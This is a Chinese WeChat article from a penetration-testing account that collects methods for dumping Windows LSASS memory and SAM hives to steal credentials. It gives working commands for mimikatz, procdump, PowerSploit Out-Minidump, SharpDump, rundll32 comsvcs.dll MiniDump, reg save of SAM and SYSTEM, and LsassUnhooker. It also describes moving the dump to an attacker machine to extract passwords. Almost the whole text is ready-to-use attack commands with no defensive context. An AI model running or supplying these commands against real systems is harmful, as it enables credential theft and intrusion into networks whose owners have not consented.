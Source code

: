 #  常见导出lsass各种方法

原创 莫大  [ 安全逐梦人 ](javascript:void\(0\);)

**安全逐梦人** ![]()

微信号 gh_bdb40c30b1d4

功能介绍 渗透知识分享，漏洞复现，安全工具分享

____

___发表于_

收录于合集 #域渗透学习 7个

# mimikatz

直接从lsass.exe进程的内存中导出凭据，命令如下：

`mimikatz.exe log "privilege::debug" "sekurlsa::logonPasswords full" exit`

工具地址：https://github.com/gentilkiwi/mimikatz

# procdump

项目地址 :`https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump`

    
    
    Procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Out-Minidump.ps1

项目地址：`https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-
Minidump.ps1`

    
    
    Import-Module .\Out-Minidump.ps1  
    Get-Process lsass | Out-Minidump

![]()

接下来把lsass转储到自己的主机再用mimikatz抓取密码即可

看lsass.dmp文件生成的路径位置，然后把这个文件下载到攻击机上的mimikatz.exe所在的路径，在这个路径进入cmd命令行，然后执行：

    
    
    mimikatz.exe "sekurlsa::minidump lsass.dmp"  
    # 接着执行  
    sekurlsa::logonpasswords

# SharpDump

项目地址：`https://github.com/GhostPack/SharpDump`

Dump LSASS:

    
    
    C:\Temp>SharpDump.exe  
      
    [*] Dumping lsass (808) to C:\WINDOWS\Temp\debug808.out  
    [+] Dump successful!  
      
    [*] Compressing C:\WINDOWS\Temp\debug808.out to C:\WINDOWS\Temp\debug808.bin gzip file  
    [*] Deleting C:\WINDOWS\Temp\debug808.out  
      
    [+] Dumping completed. Rename file to "debug808.gz" to decompress.  
      
    [*] Operating System : Windows 10 Enterprise N  
    [*] Architecture     : AMD64  
    [*] Use "sekurlsa::minidump debug.out" "sekurlsa::logonPasswords full" on the same OS/arch

![]()

# 使用comsvcs.dll

使用 rundll32找到机器的comsvcs.dll,之后以powershell(管理员)运行以下命令

    
    
    Get-Process lsass  
      
    rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <pid> C:\lsass.dmp full  
    rundll32 C:\windows\system32\comsvcs.dll, MiniDump 808 C:\test\lsass.dmp full

![]()

# 注册表导出sam文件

system文件位置:`C:\Windows\System32\config\SYSTEM`
SAM文件位置:`C:\Windows\System32\config\SAM`

    
    
    reg save HKLM\SYSTEM C:\system.hiv   
      
    reg save HKLM\sam C:\sam.hiv

![]()

之后使用mimikatz对导出的sam文件进行解密

    
    
    lsadump::sam /sam:C:\sam.hiv /system:C:\system.hiv

# LsassUnhooker

`https://github.com/roberreigada/LsassUnhooker`管理员权限运行编译后的LsassUnhooker
，就会在当前目录将lsass保存为 lsass.dmp

    
    
    运行 mimikatz.exe   
    sekurlsa::minidump lsass.dmp  
    sekurlsa::logonpasswords

  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

